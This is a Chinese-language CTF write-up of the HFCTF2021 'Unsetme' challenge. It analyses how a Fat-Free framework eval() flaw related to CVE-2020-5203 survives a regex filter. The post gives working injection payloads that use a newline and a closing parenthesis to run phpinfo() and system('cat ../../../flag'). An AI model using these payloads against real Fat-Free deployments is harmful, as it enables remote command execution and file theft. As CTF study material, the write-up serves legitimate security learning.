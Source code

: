 ```yaml
---
title: '[HFCTF2021 Quals]Unsetme'
date: 2024-11-06 20:07:22
tags: 
      - 漏洞
      - 框架
      - f3框架漏洞
categories: 刷题笔记
---
```


## [HFCTF2021 Quals]Unsetme

我们来进行代码审阅

```
<?php

// Kickstart the framework
$f3=require('lib/base.php');//引入f3框架源码

$f3->set('DEBUG',1);//f3对象设置DEBUG属性
if ((float)PCRE_VERSION<8.0)
    trigger_error('PCRE version is out of date');//判断PCRE版本

highlight_file(__FILE__);//高亮显示源码
$a=$_GET['a'];//读取get方法的a参数的值
unset($f3->$a);//调用unset函数，去除f3对象中的$a属性

$f3->run();//启动f3框架

```

看题目我们真的用了f3框架，而f3框架3.7.1版本存在rce漏洞 CVE-2020-5203

但我们不能直接复原原漏洞，因为在/lib/CHANGELOG.md中发现他用的是3.7.2的版本

在原来rce的地方加上了正则匹配

关键代码在lib/base.php下

```
function compile($str, $evaluate=TRUE) {
		return (!$evaluate)
			? preg_replace_callback(
				'/^@(\w+)((?:\..+|\[(?:(?:[^\[\]]*|(?R))*)\])*)/',
				function($expr) {
					$str='$'.$expr[1];
					if (isset($expr[2]))
						$str.=preg_replace_callback(
							'/\.([^.\[\]]+)|\[((?:[^\[\]\'"]*|(?R))*)\]/',
							function($sub) {
								$val=isset($sub[2]) ? $sub[2] : $sub[1];
								if (ctype_digit($val))
									$val=(int)$val;
								$out='['.$this->export($val).']';
								return $out;
							},
							$expr[2]
						);
					return $str;
				},
				$str
			)
			: preg_replace_callback(
			'/(?<!\w)@(\w+(?:(?:\->|::)\w+)?)'.
			'((?:\.\w+|\[(?:(?:[^\[\]]*|(?R))*)\]|(?:\->|::)\w+|\()*)/',
			function($expr) {
				$str='$'.$expr[1];
				if (isset($expr[2]))
					$str.=preg_replace_callback(
						'/\.(\w+)(\()?|\[((?:[^\[\]]*|(?R))*)\]/',
						function($sub) {
							if (empty($sub[2])) {
								if (ctype_digit($sub[1]))
									$sub[1]=(int)$sub[1];
								$out='['.
									(isset($sub[3])?
										$this->compile($sub[3]):
										$this->export($sub[1])).
								']';
							}
							else
								$out=function_exists($sub[1])?
									$sub[0]:
									('['.$this->export($sub[1]).']'.$sub[2]);
							return $out;
						},
						$expr[2]
					);
				return $str;
			},
			$str
		);
	}

```

compile是修改后加了函数的地方

```
	function __unset($key) {
		$this->offsetunset($key);
	}
	function clear($key) {
		// Normalize array literal
		$cache=Cache::instance();
		$parts=$this->cut($key);
		if ($key=='CACHE')
			// Clear cache contents
			$cache->reset();
		elseif (preg_match('/^(GET|POST|COOKIE)\b(.+)/',$key,$expr)) {
			$this->clear('REQUEST'.$expr[2]);
			if ($expr[1]=='COOKIE') {
				$parts=$this->cut($key);
				$jar=$this->hive['JAR'];
				unset($jar['lifetime']);
				$jar['expire']=0;
				if (version_compare(PHP_VERSION, '7.3.0') >= 0) {
					$jar['expires']=$jar['expire'];
					unset($jar['expire']);
					setcookie($parts[1],NULL,$jar);
				} else {
					unset($jar['samesite']);
					call_user_func_array('setcookie',
						array_merge([$parts[1],NULL],$jar));
				}
				unset($_COOKIE[$parts[1]]);
			}
		}
		elseif ($parts[0]=='SESSION') {
			if (!headers_sent() && session_status()!=PHP_SESSION_ACTIVE)
				session_start();
			if (empty($parts[1])) {
				// End session
				session_unset();
				session_destroy();
				$this->clear('COOKIE.'.session_name());
			}
			$this->sync('SESSION');
		}
		if (!isset($parts[1]) && array_key_exists($parts[0],$this->init))
			// Reset global to default value
			$this->hive[$parts[0]]=$this->init[$parts[0]];
		else {
			$val=preg_replace('/^(\$hive)/','$this->hive',
				$this->compile('@hive.'.$key, FALSE));
			eval('unset('.$val.');');
			if ($parts[0]=='SESSION') {
				session_commit();
				session_start();
			}
			if ($cache->exists($hash=$this->hash($key).'.var'))
				// Remove from cache
				$cache->clear($hash);
		}
	}


```

> 这里是执行RCE的地方，和3.7.1比没有修改
>
> 我们已知使用unset()销毁并不能销毁的变量时会调用__unset()方法，这里会把我们传入的参数赋值到\$key，经过过滤后执行eval，可以发现eval处只是简单的字符串拼接，用分号闭合后就可以在后面构造代码进行RCE了
> compile处最后返回的$str是@hive.xxxxx的形式
>
> 主要看一下第二个正则`/\.([^.\[\]]+)|\[((?:[^\[\]\'"]*|(?R))*)\]/`
>
> 这里匹配的是以`.`开始后面是字符串加`[]`的形式或`[]`包裹字符串的形式

我们尝试闭合unset

```
?a=a%0a);phpinfo(
```

![image-20241106203438796](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411062034851.png)

成功执行

那我们进行rce

```
?a=a[b]%0a);system("cat%20../../../flag"
```

得到flag

![image-20241106203552123](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411062035161.png)

## 补充

在外面构造payload时，我们发现?a=a);phpinfo(不可以，但?a=a%0a);phpinfo(可以

因为我们需要用%0a进行换行处理

```
unset($f3->a);phpinfo();
```

如果不换行，就会导致php解释器将整行的字符当作unset的参数处理，导致语法错误
